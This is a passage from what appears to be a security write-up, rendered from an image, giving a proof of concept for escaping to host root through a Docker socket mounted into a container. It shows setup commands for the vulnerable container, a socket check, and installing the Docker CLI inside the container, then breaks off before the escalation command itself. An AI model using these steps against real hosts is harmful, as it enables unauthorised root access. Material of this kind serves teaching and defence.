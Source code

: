 
A multi-layered detection strategy is crucial, combining preventative static checks with runtime verification and behavioral anomaly detection.

## **Proof of Concept (PoC)**

This Proof of Concept demonstrates how an attacker with shell access to a container that has the host's Docker socket mounted can escalate privileges to root on the host.

1. Prerequisite: Vulnerable Container Setup
    
    On the host machine, start a simple container (e.g., Alpine Linux) and mount the Docker socket into it:
    
    ```Bash
    
    `docker run -it -v /var/run/docker.sock:/var/run/docker.sock --name vulnerable-poc-container alpine sh`
    ```
    
    The attacker is assumed to have gained shell access to this `vulnerable-poc-container`.
    
2. Verify Socket Access (Inside Container)
    
    Once inside the container, the attacker verifies the presence and accessibility of the Docker socket:
    
    ```Bash
    
    # Inside vulnerable-poc-container
    ls -l /var/run/docker.sock
    # Expected output similar to: srw-rw---- 1 root docker 0 Jan 1 10:00 /var/run/docker.sock
    # (Exact permissions and group may vary, but it should be a socket file)
    ```
    
3. Install Docker CLI (Inside Container, if not present)
    
    If the Docker CLI is not available in the container, the attacker might download it. For Alpine:
    
    ```Bash
    
    # Inside vulnerable-poc-container
    apk update && apk add --no-cache docker-cli
    ```
    
    Alternatively, a statically compiled Docker binary could be uploaded or downloaded.
    
4. Interact with Host Docker Daemon (Inside Container)
    
    The attacker uses the Docker CLI (now available inside the container) to interact with the Docker daemon running on the host, via the mounted socket:
    
